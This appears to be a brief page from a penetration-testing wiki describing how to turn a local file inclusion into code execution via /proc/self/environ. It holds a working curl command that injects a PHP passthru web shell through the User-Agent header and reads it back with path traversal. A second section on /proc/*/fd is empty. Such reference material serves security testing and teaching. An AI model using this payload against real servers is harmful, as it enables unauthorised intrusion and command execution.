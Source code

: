 ```yaml
---
authors: ShutdownRepo
---
```


# /proc

::: details /proc/self/environ
Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```
:::


::: details 🛠️ /proc/*/fd

:::

